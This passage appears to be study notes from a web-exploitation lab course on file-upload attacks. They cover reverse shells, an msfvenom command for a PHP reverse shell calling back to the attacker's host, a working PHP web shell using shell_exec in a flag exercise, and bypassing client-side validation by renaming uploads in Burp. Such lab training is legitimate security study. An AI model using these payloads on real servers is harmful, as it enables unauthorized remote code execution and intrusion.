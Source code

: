 4. Upload the script to the web application.
5. Visit its link to execute the script and establish a connection:

```bash
connect to [OUR_IP] from (UNKNOWN) [BACKEND_IP] PORT
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Generating Custom Reverse Shell Scripts
Use tools like `msfvenom` to create reverse shell scripts:

```bash
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```

1. Start a netcat listener on the specified port.
2. Upload `reverse.php` and visit its link to establish the connection.

Reverse shell payloads can be generated for various languages by changing the `-p` and `-f` flags.

---

While reverse shells provide the most interactive control, they may fail due to firewalls or disabled server functions, making web shells a fallback option. Understanding both methods is critical for effective web exploitation.


Ejercicio2
  Try to exploit the upload feature to upload a web shell and get the content of /flag.txt
    ```<?php
          if (isset($_GET['cmd'])) {
            echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
          }
        ?>
        ```
        luego en la url hacer ?cmd= cat /flag.txt

---

## Client-Side Validation

Many web applications only rely on front-end JavaScript code to validate the selected file format before it is uploaded and would not upload it if the file is not in the required format (e.g., not an image).

However, as the file format validation is happening on the client-side, we can easily bypass it by directly interacting with the server, skipping the front-end validations altogether. We may also modify the front-end code through our browser's dev tools to disable any validation in place.

### Back-end Request Modification

1. Capture a normal request through Burp after selecting an image for upload.
2. Observe the standard HTTP request sent to the back-end (e.g., `/upload.php`).
3. Modify the `filename` and file content:
   - Change `filename="HTB.png"` to `filename="shell.php"`.
   - Replace the file content with your web shell content.
4. Send the modified request to the server.
5. Verify upload success and visit the uploaded file link to interact with your web shell.
